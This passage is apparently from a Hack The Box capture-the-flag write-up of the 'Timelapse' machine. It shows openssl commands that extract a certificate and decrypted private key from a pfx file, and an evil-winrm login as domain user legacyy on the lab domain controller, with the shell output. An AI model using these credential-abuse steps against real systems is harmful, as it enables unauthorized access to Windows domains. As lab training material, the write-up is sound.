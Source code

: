 That being said, we can **try to WinRM into domain user `legacyy`.**

**However, we need to extract the SSL certificate and private key from the `pfx` file:** (Commands are from [https://www.ibm.com/docs/en/arl/9.7?topic=certification-extracting-certificate-keys-from-pfx-file](https://www.ibm.com/docs/en/arl/9.7?topic=certification-extracting-certificate-keys-from-pfx-file))
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Timelapse/smb_findings)-[2023.08.09|16:31:06(HKT)]
└> openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out legacyy_dev_auth.key
Enter Import Password:
Enter PEM pass phrase:
Verifying - Enter PEM pass phrase:
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Timelapse/smb_findings)-[2023.08.09|16:31:59(HKT)]
└> openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out legacyy_dev_auth.crt
Enter Import Password:
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Timelapse/smb_findings)-[2023.08.09|16:32:52(HKT)]
└> openssl rsa -in legacyy_dev_auth.key -out legacyy_dev_auth_decrypted.key
Enter pass phrase for legacyy_dev_auth.key:
writing RSA key
```

**After that, we can try to use `evil-winrm`, `legacyy_dev_auth.pfx`'s SSL certificate and private key to authenticate as domain user `legacyy`:**
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Timelapse/smb_findings)-[2023.08.09|16:45:21(HKT)]
└> evil-winrm -S -i $RHOSTS -u legacyy -c legacyy_dev_auth.crt -k legacyy_dev_auth_decrypted.key 
[...]
*Evil-WinRM* PS C:\Users\legacyy\Documents> whoami; ipconfig /all
timelapse\legacyy

Windows IP Configuration

   Host Name . . . . . . . . . . . . : dc01
   Primary Dns Suffix  . . . . . . . : timelapse.htb
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : timelapse.htb

Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . :
   Description . . . . . . . . . . . : vmxnet3 Ethernet Adapter
   Physical Address. . . . . . . . . : 00-50-56-B9-7B-4A
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
   Link-local IPv6 Address . . . . . : fe80::4113:1f9:543d:6321%13(Preferred)
   IPv4 Address. . . . . . . . . . . : 10.10.11.152(Preferred)
   Subnet Mask . . . . . . . . . . . : 255.255.254.0
   Default Gateway . . . . . . . . . : 10.10.10.2
   DHCPv6 IAID . . . . . . . . . . . : 33574998
   DHCPv6 Client DUID. . . . . . . . : 00-01-00-01-2C-65-68-F0-00-50-56-B9-7B-4A
   DNS Servers . . . . . . . . . . . : 127.0.0.1
[...]
```
